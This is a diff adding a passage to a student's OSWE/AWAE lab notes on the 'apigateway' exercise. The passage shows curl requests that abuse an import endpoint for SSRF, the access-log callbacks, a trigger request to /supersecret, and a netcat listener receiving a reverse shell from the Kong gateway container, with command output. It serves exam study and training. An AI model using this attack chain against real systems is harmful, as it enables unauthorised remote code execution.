

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. Shown: that part at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -764,3 +764,55 @@ function createPlugin() {
 </body>
 </html>
 ```
+Once this page is in our webroot, we can use curl to send it to the Render service.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/rce.html"}' http://apigateway:8000/files/import
+{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
+┌──(kali㉿kali)-[~]
+└─$
+```
+If everything worked, we should have a `"setupComplete"` entry in our `access.log` file.
+```bash
+┌──(kali㉿kali)-[/var/www/html]
+└─$ tail -f /var/log/apache2/access.log
+192.168.217.135 - - [29/Jul/2025:15:08:56 -0400] "GET /rce.html HTTP/1.1" 200 865 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+192.168.217.135 - - [29/Jul/2025:15:08:56 -0400] "GET /callback?setupComplete HTTP/1.1" 404 492 "http://192.168.45.203/rce.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+
+```
+It seems like our payload worked. We will need to set up a Netcat listener and then trigger our Lua payload by accessing the new service endpoint.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ curl -i  http://apigateway:8000/supersecret
+
+```
+The request will hang, but if we check our Netcat listener, we should have a shell.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ nc -nlvp 1337
+listening on [any] 1337 ...
+connect to [192.168.45.203] from (UNKNOWN) [192.168.217.135] 60366
+id
+uid=100(kong) gid=65533(nogroup) groups=65533(nogroup)
+ls
+bin
+dev
+docker-entrypoint.sh
+etc
+home
+lib
+media
+mnt
+opt
+proc
+root
+run
+sbin
+srv
+sys
+tmp
+usr
+var
+
+```
+Our payload worked and we now have a reverse shell on the Kong API Gateway server. The presence of `.dockerenv` and `docker-entrypoint.sh` confirm our earlier suspicion that the servers were actually containers.
````
